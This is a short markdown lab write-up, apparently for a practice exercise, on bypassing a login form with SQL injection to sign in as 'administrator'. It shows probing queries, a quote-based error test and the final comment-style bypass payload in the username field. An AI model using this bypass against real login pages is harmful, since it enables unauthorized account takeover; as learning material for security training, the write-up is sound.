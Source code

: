 # SQL injection - login functionality

## end goal: perform SQL injection attack and log in as "administrator" user

login to admin account:
`administrator`

## analysis

``` SQL
 SELECT firstname FROM users where username='admin' and password='admin';
--and i get nothing but if i check random user and password like this:
 SELECT firstname FROM users where username='random_letters' and password='random_letters_and_numbers';
--i got an error "Invalid username or password." Then it has sql vulnerability
let's try something like this
 SELECT firstname FROM users where username=''';
--now we get the backend server error. it 100% vulnerable
 SELECT firstname FROM users where username='''--;
i log in as administrator

```
